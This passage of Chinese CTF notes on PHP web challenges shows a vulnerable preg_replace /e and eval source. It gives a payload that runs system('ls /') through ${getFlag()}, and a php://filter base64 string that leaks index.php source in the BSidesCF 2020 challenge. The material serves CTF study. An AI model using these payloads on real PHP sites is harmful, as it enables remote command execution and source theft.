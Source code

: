 ```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

将传参设置为\S*以此来匹配后面传入的函数

- pyload:?\S*=${getFlag()}&cmd=system('ls /');

可以任意命令执行了

## PHP伪协议

### zlib.deflate和zlib.inflate的配合

### string.strip_tags的segment fault爆破临时文件

### ****[WMCTF2020]Web Check in 2.0****

[WMctf2020 Checkin出题想法&题解](https://cyc1e183.github.io/2020/08/04/WMctf2020-Checkin%E5%87%BA%E9%A2%98%E6%83%B3%E6%B3%95-%E9%A2%98%E8%A7%A3/)

### php伪协议的嵌套绕过对路径内容要求

### ****[BSidesCF 2020]Had a bad day****

在传参的地方伪协议读index.php源码

?category=php://filter/convert.base64-encode/resource=index

```php
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
  </head>
  <body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
```